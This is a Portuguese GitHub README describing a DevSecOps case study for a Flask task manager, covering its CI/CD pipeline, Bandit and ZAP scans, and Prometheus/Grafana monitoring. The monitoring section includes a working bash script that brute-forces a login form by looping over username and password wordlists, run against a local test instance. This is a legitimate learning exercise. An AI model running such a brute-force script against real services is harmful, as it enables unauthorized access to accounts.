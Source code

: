 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![dfd](https://github.com/user-attachments/assets/6809cba3-bd94-4042-beb3-96beb5435c44)

<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/user-attachments/assets/2c5f592a-185b-4f68-b372-33077d93eed0)


2. Aplicação executada na porta 5000:

   ![app](https://github.com/user-attachments/assets/815bb208-495e-4b0b-9931-5ea3d2c150e5)


<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlabci](https://github.com/user-attachments/assets/8d68bae7-73df-4b91-9e75-5c012a159177)


2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/user-attachments/assets/de446dc6-f90a-4192-a62c-e58366d52a2c)


<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:
   
![bandit-artifect](https://github.com/user-attachments/assets/f6a7f30a-d20f-41cb-a541-b2c95c493182)


2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact-zap-attack-tools](https://github.com/user-attachments/assets/92ed0c4f-d63e-4f4b-a281-3e8e05ded057)


3. Correção no código da falha capturada pelo Bandit:

![fixenv](https://github.com/user-attachments/assets/637a10d4-24c7-47de-8d1c-e91db4f988c0)


4. Implementação do OWASP Dependency Check na pipeline:
   
![owasp-dependecy-check](https://github.com/user-attachments/assets/03502964-4072-4e84-8c6b-45abab2dd431)


5. Artefato gerado com vulnerabilidades no código JavaScript:

![artifect-dependency-check](https://github.com/user-attachments/assets/c86fa7fb-8759-4973-af40-5e5877b0c09e)

<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/zap-attack-tools.png)

2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/review-pipeline.png)

2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:

![owasp-zap](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometheus-grafana](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/grafana-prometheus.png)

2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-finished.png)

<br />
